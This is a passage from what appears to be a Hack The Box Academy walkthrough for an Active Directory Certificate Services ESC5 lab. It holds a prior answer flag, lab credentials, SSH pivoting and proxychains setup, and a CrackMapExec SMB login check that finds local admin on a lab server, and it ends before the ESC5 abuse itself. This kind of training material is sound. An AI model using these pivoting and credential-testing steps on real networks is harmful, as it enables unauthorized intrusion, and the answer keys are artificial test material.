 Answer: `f0982e00d07f1329412df06ba5f6b67e`

# ESC5

## Question 1

### "Using the credentials cken:Superman001, abuse the ESC5 misconfiguration to compromise the DC. What is the value of the flag file at C:\\ESC5\\flag.txt?"

After spawning the target machine, students first need to establish dynamic port forwarding to access the target's internal network; it is important to set the `-oStrictHostKeyChecking` option to `accept-new`, which allows SSH to automatically add new host keys to the user's known hosts files:

Code: shell

```shell
sshpass -p 'HTB_@cademy_stdnt!' ssh -N -f -D 127.0.0.1:9050 htb-student@STMIP -oStrictHostKeyChecking=accept-new
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ sshpass -p 'HTB_@cademy_stdnt!' ssh -N -f -D 127.0.0.1:9050 htb-student@10.129.205.205 -oStrictHostKeyChecking=accept-new

Warning: Permanently added '10.129.205.205' (ECDSA) to the list of known hosts.
```

Additionally, students need to comment out `proxy_dns` in `/etc/proxychains.conf`:

Code: shell

```shell
sudo sed -i "s/proxy_dns/#proxy_dns/" /etc/proxychains.conf
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ sudo sed -i "s/proxy_dns/#proxy_dns/" /etc/proxychains.conf
```

When tunneling via `proxychains` the `smb` protocol of `cme` or (`nxc`) and utilizing the credentials `cken:Superman001`, students will discover that `cken` is a local admin on the ADCS server `WS01`:

Code: shell

```shell
proxychains -q cme smb 172.16.19.3 172.16.19.5 -u cken -p Superman001
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q cme smb 172.16.19.3 172.16.19.5 -u cken -p Superman001

SMB         172.16.19.5     445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:lab.local) (signing:False) (SMBv1:False)
SMB         172.16.19.3     445    LAB-DC           [*] Windows 10.0 Build 17763 x64 (name:LAB-DC) (domain:lab.local) (signing:True) (SMBv1:False)
SMB         172.16.19.5     445    WS01             [+] lab.local\cken:Superman001 (Pwn3d!)
SMB         172.16.19.3     445    LAB-DC           [+] lab.local\cken:Superman001
```
